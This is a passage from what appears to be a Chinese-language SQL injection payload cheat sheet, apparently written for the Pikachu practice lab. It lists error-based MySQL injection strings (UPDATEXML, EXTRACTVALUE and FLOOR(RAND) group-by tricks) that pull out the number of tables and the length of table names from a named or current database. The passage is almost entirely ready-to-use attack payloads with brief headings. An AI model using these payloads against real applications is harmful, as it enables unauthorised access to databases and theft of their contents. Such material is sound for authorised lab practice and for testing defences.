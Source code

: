 ### 6.3. Tables

显示指定数据库中数据表的个数

```
' OR UPDATEXML(1, CONCAT(0x7e, (SELECT COUNT(*) FROM information_schema.TABLES WHERE table_schema='pikachu'), 0x7e), 0) OR '
```

```
' OR EXTRACTVALUE(1, CONCAT(0x7e, (SELECT COUNT(*) FROM information_schema.TABLES WHERE table_schema='pikachu'), 0x7e)) OR '
```

```
' OR (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x7e, (SELECT COUNT(*) FROM information_schema.TABLES WHERE table_schema='pikachu'), 0x7e, FLOOR(RAND(0)*2)) AS a FROM information_schema.TABLES GROUP BY a) AS b)-- 
```

显示当前数据库中数据表的个数

```
' OR UPDATEXML(1, CONCAT(0x7e, (SELECT COUNT(*) FROM information_schema.TABLES WHERE table_schema=DATABASE()), 0x7e), 0) OR '
```

```
' OR EXTRACTVALUE(1, CONCAT(0x7e, (SELECT COUNT(*) FROM information_schema.TABLES WHERE table_schema=DATABASE()), 0x7e)) OR '
```

```
' OR (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x7e, (SELECT COUNT(*) FROM information_schema.TABLES WHERE table_schema=DATABASE()), 0x7e, FLOOR(RAND(0)*2)) AS a FROM information_schema.TABLES GROUP BY a) AS b)-- 
```

显示指定数据库中第一个数据表名的字节长度

```
' OR UPDATEXML(1, CONCAT(0x7e, (SELECT LENGTH(table_name) FROM information_schema.TABLES WHERE table_schema='pikachu' LIMIT 0, 1), 0x7e), 0) OR '
```

```
' OR EXTRACTVALUE(1, CONCAT(0x7e, (SELECT LENGTH(table_name) FROM information_schema.TABLES WHERE table_schema='pikachu' LIMIT 0, 1), 0x7e)) OR '
```

```
' OR (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x7e, (SELECT LENGTH(table_name) FROM information_schema.TABLES WHERE table_schema='pikachu' LIMIT 0, 1), 0x7e, FLOOR(RAND(0)*2)) AS a FROM information_schema.TABLES GROUP BY a) AS b)-- 
```

显示当前数据库中第一个数据表名的字节长度

```
' OR UPDATEXML(1, CONCAT(0x7e, (SELECT LENGTH(table_name) FROM information_schema.TABLES WHERE table_schema=DATABASE() LIMIT 0, 1), 0x7e), 0) OR '
```
